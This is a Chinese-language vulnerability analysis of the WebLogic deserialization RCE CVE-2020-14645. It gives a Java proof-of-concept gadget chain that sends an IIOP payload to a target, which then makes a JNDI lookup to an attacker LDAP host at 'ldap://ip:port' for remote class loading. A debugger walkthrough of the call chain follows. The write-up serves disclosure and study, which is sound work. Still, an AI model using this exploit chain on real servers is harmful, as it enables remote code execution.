 # Weblogic 远程命令执行漏洞（CVE-2020-14645）分析



> 作者：白帽汇安全研究院@hu4wufu
>
> 核对：白帽汇安全研究院@r4v3zn



## 0x00 前言

近期公布的关于 Weblogic 的反序列化RCE漏洞 CVE-2020-14645，是对 CVE-2020-2883的补丁进行绕过。之前的 CVE-2020-2883 本质上是通过 `ReflectionExtractor` 调用任意方法，从而实现调用 `Runtime` 对象的 exec 方法执行任意命令，补丁将 `ReflectionExtractor` 列入黑名单，那么可以使用 `UniversalExtractor` 重新构造一条利用链。`UniversalExtractor` 任意调用 `get`、`is`方法导致可利用 JDNI 远程动态类加载。`UniversalExtractor` 是 Weblogic 12.2.1.4.0 版本中独有的，本文也是基于该版本进行分析。

## 0x01 漏洞复现

漏洞利用 POC，以下的分析也是基于该 POC 进行分析

```java
ChainedExtractor chainedExtractor = new ChainedExtractor(new ValueExtractor[]{new ReflectionExtractor("toString",new ob ject[]{})});
PriorityQueue<object> queue = new PriorityQueue(2, new ExtractorComparator(chainedExtractor));
queue.add("1");
queue.add("1");
//构造 UniversalExtract 调用 JdbcRowSetImpl 对象的任意方法
UniversalExtractor universalExtractor = new UniversalExtractor();
object object = new object[]{};
Reflections.setFieldValue(universalExtractor,"m_aoParam",object);
Reflections.setFieldValue(universalExtractor,"m_sName","Databa seme taData");
Reflections.setFieldValue(universalExtractor,"m_fMethod",false);
ValueExtractor[] valueExtractor_list = new ValueExtractor[]{universalExtractor};
Field[] fields = ChainedExtractor.class.getDeclaredFields();
Field field = ChainedExtractor.class.getSuperclass().getDeclaredField("m_aExtractor");
field.setAccessible(true);
field.set(chainedExtractor,valueExtractor_list);
JdbcRowSetImpl jdbcRowSet = Reflections.createWithoutConstructor(JdbcRowSetImpl.class);
jdbcRowSet.setDataSourceName("ldap://ip:port/uaa");
object[] queueArray = (object[])((object[]) Reflections.getFieldValue(queue, "queue"));
queueArray[0] = jdbcRowSet;
// 发送 IIOP 协议数据包
Context context = getContext("iiop://ip:port");
context.rebind("hello", queue);
```

成功弹出计算机

![image-20200804101553091.png](https://nosec.org/avatar/uploads/attach/image/4774e279d3f810256b762eb4622d2bea/image-20200804101553091.png)

## 0x02 漏洞分析

了解过 `JDNI` 注入的都知道漏洞在 `lookup()` 触发，这里在 `JdbcRowSetImpl.class` 中 `326` 行 `lookup()` 函数处设置断点。

以下为漏洞利用的简要调用链：

我们从头分析，我们都知道反序列化的根本是对象反序列化的时候，我们从 IO 流里面读出数据的时候再以这种规则把对象还原回来。我们在 `in.readob ject()` 处打断点，跟进查看 `PriorityQueue.readob ject()`方法

![image-20200804103549551.png](https://nosec.org/avatar/uploads/attach/image/e7979032e713efccb4e2081ab3393705/image-20200804103549551.png)

这里 782 执行 `s.defaultReadob ject()` ，785 执行 `s.readInt()` 赋给对象输入流大小以及数组长度，并在 790 行执行 for 循环，依次将 `s.readob ject()` 方法赋值给 `queue` 对象数组，这里 `queue` 对象数组长度为 2。

![image-20200804104305927.png](https://nosec.org/avatar/uploads/attach/image/b7c3f090786f93a83cf52066a09c3eee/image-20200804104305927.png)

接着往下跟，查看 `heapify()` 方法。`PriorityQueue` 实际上是一个最小堆，这里通过 `siftDown()` 方法进行排序实现堆化，

![image-20200804105255018.png](https://nosec.org/avatar/uploads/attach/image/a32918a13289041ec44d7d9076adf24c/image-20200804105255018.png)

跟进 `siftDown()` 方法，这里首先判断 `comparator` 是否为空

我们可以看看 `comparator` 是怎么来的，由此可见是在 `PriorityQueue` 的构造函数中被赋值的，在初始化构造时，除了给 `this.comparator` 进行赋值之外，通过 `initialCapacity` 进行初始化长度。

![image-20200804194458747.png](https://nosec.org/avatar/uploads/attach/image/9bafecfe467d0b438a07ee6303c72049/image-20200804194458747.png)

`comparator` 不为空，所以我们执行的是 `siftDownUsingComparator()` 方法，所以跟进 `siftDownUsingComparator()` 方法。

![image-20200804112050425.png](https://nosec.org/avatar/uploads/attach/image/76bbc1f12c4d9ed1c3fe71b0fb7e66bc/image-20200804112050425.png)

继续跟进 `ExtractorComparator.compare()` 方法

![image-20200804112730337.png](https://nosec.org/avatar/uploads/attach/image/1f864d9da733499dc20edc62b170347e/image-20200804112730337.png)

这里调用的是 `this.m_extractor.extract()` 方法，来看看 `this.m_extractor`，这里传入了 `extractor`，

![image-20200804200522899.png](https://nosec.org/avatar/uploads/attach/image/4a7a6779c7153ca20c89804f15263ad5/image-20200804200522899.png)

`this.m_extractor` 的值是与传入的 `extractor` 有关的。这里需要构造 `this.m_extractor` 为 `ChainedExtractor`，才可以调用 `ChainedExtractor` 的 `extract()` 方法实现 `extract()` 调用。

继续跟进 `ChainedExtractor.extract()` 方法，可以发现会遍历 `aExtractor` 数组，并调用 `extract()`方法。

![image-20200804121015290.png](https://nosec.org/avatar/uploads/attach/image/7c79e1be0ee4f3ad2f52286303df9133/image-20200804121015290.png)

跟进 `extract()` 方法，此处由于 `m_cacheTarget` 使用了 `transient` 修饰，无法被反序列化，因此只能执行 `else` 部分，最后通过 `this.extractComplex(oTarget)` 进行最终触发漏洞点

![image-20200804152930452.png](https://nosec.org/avatar/uploads/attach/image/3241805391f43dc50eb0e0b5fb2403e2/image-20200804152930452.png)

`this.extractComplex(oTarget)` 中可以看到最后通过 `method.invoke()` 进行反射执行，其中 `oTarget`和 `aoParam` 都是可控的。

![image-20200805104643434.png](https://nosec.org/avatar/uploads/attach/image/3ca14bab8a17510b1e32e4e93b8da57d/image-20200805104643434.png)

我们跟进190的 `findMethod()` 方法，在 475 行需要使 `fExactMatch` 为 `true`，`fStatic` 为 `false`才可让传入 `clz` 的可以获取任意方法。`fStatic` 是可控的，而 `fExactMatch` 默认为`true` ，只要没进入 `for` 循环即可保持 `true` 不变，使 `cParams` 为空即 `aclzParam` 为空的 `Class` 数组即可，此处 `aclzParam` 从 `getClassArray()` 方法获取。

![image-20200805105432824.png](https://nosec.org/avatar/uploads/attach/image/542de6fe97ae010969077e4d5a0ecb69/image-20200805105432824.png)

在 `getClasssArray` 中通过获取输入参数的值对应的 Class 进行处理。

![image-20200805110432248.png](https://nosec.org/avatar/uploads/attach/image/622b7bbc242dad427b917eddb16477a2/image-20200805110432248.png)

由于传入的 `aoParam` 是一个空的 `ob ject[]`，所以获取对应的 `Class` 也为空的 `Class[]`，跟入 `isPropertyExtractor()` 中进行进行获取可以看到将 `this._fMethod` 获取相反的值。

![image-20200805111826338.png](https://nosec.org/avatar/uploads/attach/image/347927a9064d40cd2f0bea6a1140fe5d/image-20200805111826338.png)

由于 `m_fMethod` 被 `transient` 修饰，不会被序列化，通过分析 `m_fMethod` 赋值过程，可发现在 `init()` 时会获取sCName，并且通过判定是否为 `()` 结尾来进行赋值。

![image-20200805114008976.png](https://nosec.org/avatar/uploads/attach/image/d85fa77dd970a28869b5b88cfd643877/image-20200805114008976.png)

![image-20200805112641391.png](https://nosec.org/avatar/uploads/attach/image/f629c5395d5686fa5336041b8688f9c7/image-20200805112641391.png)

由于参数为 `this` 的原因，导致`getValueExtractorCanonicalName()`方法返回的都是 `null`。

![image-20200805112805383.png](https://nosec.org/avatar/uploads/attach/image/2b13cead2d716e4b58602352f5c4d26c/image-20200805112805383.png)

跟入 `getValueExtractorCanonicalName()`函数，最后是通过调用 `computeValuExtractorCanonicalName`进行处理。

![image-20200805113204395.png](https://nosec.org/avatar/uploads/attach/image/a1711aabcfd46f22fba644eff8200ecf/image-20200805113204395.png)

跟入 `computeValuExtractorCanonicalName()` 之后，如果 `aoParam`不为 `null` 且数组长度大于 0 就会返回 `null`，由于 `aoParam` 必须为 `null` ，因此我们调用的方法必须是无参的。接着如果方法名 `sName`不以 `()` 结尾，就会直接返回方法名。否则会判断方法名是否以 `VALUE_EXTRACTOR_BEAN_ACCESSOR_PREFIXES` 数组中的前缀开头，如果是的话就会截取掉并返回。

![image-20200805145607115.png](https://nosec.org/avatar/uploads/attach/image/afa0cd1e0ad8cdedee0ecf6c183e9cac/image-20200805145607115.png)

回到 `extractComplex()` 方法中，在 `if` 条件里会对上述返回的方法名做首字母大写处理，然后拼接 `BEAN_ACCESSOR_PREFIXES` 数组中的前缀，判断 `clzTarget` 类中是否含有拼接后的方法。这里可以看到我们只能调用任意类中的 `get` 和 `is` 开头的无参方法。也就解释了为什么 `poc` 会想到利用 `JNDI` 来进行远程动态类加载。

![image-20200805144604232.png](https://nosec.org/avatar/uploads/attach/image/b37fd39e5eee55eca1edbc98f85f47c6/image-20200805144604232.png)

跟进 `method.invoke()` 方法，会直接跳转至 `JdbcRowSetImpl.getDataba seme taData()`。

![image-20200805144744730.png](https://nosec.org/avatar/uploads/attach/image/deaaaca38389e10f3a8875594e8a2ef7/image-20200805144744730.png)![image-20200805150250708.png](https://nosec.org/avatar/uploads/attach/image/fefbeab9bb4e2734eccfa675ac235792/image-20200805150250708.png)

由于`JdbcRowSetImpl.getDataba seme taData()`，调用了 `this.connect()`，可以看到在 326 行执行了 `lookup` 操作，触发了漏洞。

![image-20200804154222491.png](https://nosec.org/avatar/uploads/attach/image/f89f644faa08ba47d5d4195a0991999f/image-20200804154222491.png)

![image-20200804154640662.png](https://nosec.org/avatar/uploads/attach/image/b4ea97dfb23997a8313ceb9f0bfe6ab5/image-20200804154640662.png)

至此，跟进 `getDataSourceName()`，可看到调用了可控制的 `dataSource`。

![image-20200805220712478.png](https://nosec.org/avatar/uploads/attach/image/6bf126cbda43b9dbebcddcd4bb097e26/image-20200805220712478.png)

## 0x03 总结

此漏洞主要以绕过黑名单的形式，利用 `UniversalExtractor` 任意调用`get`、`is`方法导致 JNDI 注入，由此拓展 CVE-2020-14625。

## 0x04 参考

- [WebLogic coherence UniversalExtractor 反序列化 (CVE-2020-14645) 漏洞分析](https://paper.seebug.org/1280/#cve-2020-14645)
- https://www.oracle.com/security-alerts/cpujul2020.html
